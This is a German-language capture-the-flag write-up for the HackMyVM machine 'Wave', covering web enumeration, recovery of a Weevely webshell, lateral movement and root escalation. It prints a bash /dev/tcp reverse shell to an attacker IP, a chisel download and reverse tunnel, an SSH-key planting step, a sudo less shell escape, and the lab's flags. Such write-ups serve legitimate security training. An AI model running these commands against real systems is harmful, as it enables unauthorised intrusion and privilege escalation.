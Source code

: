 # Wave - HackMyVM Writeup

![Wave Icon](Wave.png)

## Übersicht

*   **VM:** Wave
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=wave)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 08. Juni 2025
*   **Original-Writeup:** https://alientec1908.github.io/Wave_HackMyVM_Medium/
*   **Autor:** Ben C.

---

**Disclaimer:**

Dieser Writeup dient ausschließlich zu Bildungszwecken und dokumentiert Techniken, die in einer kontrollierten Testumgebung (HackTheBox/HackMyVM) angewendet wurden. Die Anwendung dieser Techniken auf Systeme, für die keine ausdrückliche Genehmigung vorliegt, ist illegal und ethisch nicht vertretbar. Der Autor und der Ersteller dieses README übernehmen keine Verantwortung für jeglichen Missbrauch der hier beschriebenen Informationen.

---

## Zusammenfassung

Die Box "Wave" kombinierte verschiedene Schwachstellen für einen interessanten Angriffspfad. Nach der initialen Enumeration offener Dienste (SSH, HTTP) wurde ein Nginx-Webserver mit einem offen zugänglichen `/backup`-Verzeichnis entdeckt. Dieses enthielt Backup-Dateien, darunter eine, die als codierte Webshell (Weevely) identifiziert wurde. Durch das Entschlüsseln und Analysieren dieser Datei konnte der Codierungsalgorithmus nachvollzogen und eine funktionierende Webshell über eine passende PHP-Endung (`.php7`) wiederhergestellt werden.

Die Webshell auf `/weevely.php7` ermöglichte eine erste Shell als Benutzer `www-data`. In dieser Shell wurde ein lokal laufender Dienst auf Port 3923 entdeckt, der über einen SSH-Tunnel zugänglich gemacht werden konnte. Dieser Dienst entpuppte sich als ein Dateibrowser-Interface, das das Navigieren im Dateisystem und das Hochladen von Dateien erlaubte.

Durch das Hochladen des eigenen SSH-Public Keys in den `.ssh`-Ordner des Benutzers `angie` (dessen Home-Verzeichnis zugänglich war) konnte ein SSH-Login als `angie` erreicht werden. Als `angie` wurde eine kritische `sudo`-Regel gefunden, die das Ausführen von `/usr/bin/less -F /opt/secret.txt` als Root ohne Passwort erlaubte. Diese `less`-Instanz konnte für die finale Privilegieneskalation zu Root ausgenutzt werden.

## Technische Details

*   **Betriebssystem:** Debian / Linux (basierend auf Nmap-Erkennung und `uname -a` in Shell)
*   **Offene Ports:**
    *   `22/tcp`: SSH (OpenSSH 9.2p1)
    *   `80/tcp`: HTTP (nginx 1.22.1)
    *   `3923/tcp`: Unbekannter Dienst (lokal gebunden)

## Enumeration

1.  **ARP-Scan:** Identifizierung der Ziel-IP (192.168.2.33) im Netzwerk.
2.  **`/etc/hosts` Eintrag:** Hinzufügen von `wave.hmv` zur lokalen hosts-Datei.
3.  **Nmap Scan:** Identifizierung offener Ports 22 (SSH) und 80 (HTTP). Nginx 1.22.1 wurde erkannt. Robots.txt auf Port 80 zeigte Disallow für `/backup`.
4.  **Web Enumeration (Port 80):**
    *   Die Webseite (`/index.html`) zeigte nur "<h3> WAVE </h3>".
    *   Nikto und Gobuster bestätigten das Nginx-Verzeichnislisting auf `/backup/`.
    *   In `/backup/` wurden mehrere Dateien gefunden: `index.bck`, `log.log`, `phptest.bck`, `robots.bck`, `weevely.bck`.

## Initialer Zugriff (www-data Shell via Webshell)

1.  **Weevely Backdoor:** Die Datei `weevely.bck` enthielt codierten PHP-Code. Nach dem Herunterladen und Umbenennen in `.phar` konnte der Inhalt extrahiert werden (`phar extract`). Der extrahierte Code (`x`) enthielt die Logik einer Weevely-Backdoor (XOR-Verschlüsselung, Base64-Kodierung, GZIP-Komprimierung) und den verwendeten Schlüssel (`3ddf0d5c`).
2.  **Webshell Wiederherstellung:** Es wurde vermutet, dass die Datei `weevely.bck` ursprünglich eine andere PHP-Endung hatte. Fuzzing mit `ffuf` und einer Liste gängiger PHP-Erweiterungen gegen `/weevely.FUZZ` zeigte, dass `/weevely.php7` einen 200 OK Status zurückgab.
3.  **Weevely Client Emulation:** Mit Kenntnis des Schlüssels und des Endpunkts (`/weevely.php7`) konnte ein einfaches Python-Skript erstellt werden, das die Weevely-Kommunikation nachbildete (Befehl komprimieren, XORen, Base64-kodieren, in POST-Request mit `prefix` und `suffix` senden).
4.  **Ergebnis:** Durch Senden eines Payloads wie `system("id");` konnte Code als Benutzer `www-data` ausgeführt werden. Eine Reverse Shell wurde mit `sy5tem("bash -c 'bash -i >& /dev/tcp/192.168.2.199/4444 0>&1'");` initiiert und auf Port 4444 des Angreifers empfangen.

## Lateral Movement (www-data -> angie)

1.  **Systemerkundung als `www-data`:** In der `www-data`-Shell wurde nach weiteren Diensten und Informationen gesucht. `ss -altpn` zeigte einen Prozess, der auf `127.0.0.1:3923` lauschte.
2.  **Port Forwarding:** Der `chisel` Client wurde auf das Zielsystem (`/tmp`) hochgeladen (`wget 192.168.2.199:8000/chisel`). Ein Chisel-Server wurde auf der Angreifer-Maschine gestartet (`./chisel server --reverse -p 2525`). Vom Zielsystem (`www-data` Shell) wurde der Client gestartet, um den lokalen Port 3923 auf einen Port des Angreifers umzuleiten (`./chisel client 192.168.2.199:2525 R:8888:127.0.0.1:3923 &`).
3.  **Lokal gebundener Dienst:** Über den Chisel-Tunnel konnte auf der Angreifer-Maschine (`http://192.168.2.199:8888/`) auf das Interface des Dienstes auf Port 3923 zugegriffen werden. Dies war ein Web-basierter Dateibrowser.
4.  **Dateibrowser Schwachstelle:** Das Interface ermöglichte das Navigieren im Dateisystem (auch außerhalb des Web-Roots) sowie das Erstellen von Verzeichnissen und Hochladen von Dateien. Die Home-Verzeichnisse der Benutzer `angie` und `carla` unter `/home/` waren zugänglich (www-data hatte Leseberechtigung auf /home/angie und /home/carla, aber keinen Schreibzugriff über die Shell).
5.  **SSH Key Upload:** Über das Dateibrowser-Interface konnte ein `.ssh`-Verzeichnis im Home-Ordner von `angie` (`/home/angie/`) erstellt werden. Der öffentliche SSH-Schlüssel des Angreifers (`~/.ssh/id_rsa.pub`, kopiert in `authorized_keys`) wurde dann in dieses `.ssh`-Verzeichnis hochgeladen.
6.  **SSH Login als angie:** Mit dem hochgeladenen `authorized_keys` Eintrag konnte sich erfolgreich via SSH als Benutzer `angie` angemeldet werden (`ssh -i ~/.ssh/id_rsa angie@192.168.2.33`).

## Privilegieneskalation (angie -> root)

1.  **Sudo-Regel für angie:** Als Benutzer `angie` wurde `sudo -l` ausgeführt. Die entscheidende `sudo`-Regel erlaubte die Ausführung von `/usr/bin/less -F /opt/secret.txt` als Root ohne Passwort: `(ALL) NOPASSWD: /usr/bin/less -F /opt/secret.txt`.
2.  **`less` Sudo Exploit:** Das `less` Binary kann, wenn es mit `sudo` als Root ausgeführt wird und die Option `-F` verwendet wird (die verhindert, dass `less` beendet wird, wenn der Inhalt auf einen Bildschirm passt), ausgenutzt werden, um eine Shell zu erhalten. Innerhalb der `less`-Instanz kann `!` gefolgt von einem Befehl (z.B. `!/bin/sh`) eine Shell mit den Berechtigungen starten, unter denen `less` läuft (in diesem Fall Root). Das Verändern der Terminalgröße (`stty rows 3 columns 8`) zwingt `less` dazu, den Inhalt nicht auf einen Bildschirm passen zu lassen, was die Ausnutzung erleichtert.
3.  **Root Shell:** Durch die Ausführung von `sudo /usr/bin/less -F /opt/secret.txt`, das Ändern der Terminalgröße und die Eingabe von `!/bin/sh` in `less` wurde eine Root-Shell erlangt.

## Finalisierung (Root Shell)

1.  **Root-Zugriff:** In der Root-Shell konnte auf das Root-Verzeichnis zugegriffen werden.
2.  **Root Flag:** Die Datei `root.txt` im `/root`-Verzeichnis wurde gefunden und ihr Inhalt ausgelesen.

## Flags

*   **user.txt:** `HMVIdsEwudDxJDSaue32DJa` (Gefunden über den Dateibrowser unter `/home/angie/user.txt`)
*   **root.txt:** `HMVNVJrewoiu47rewFDSR` (Gefunden unter `/root/root.txt`)

---
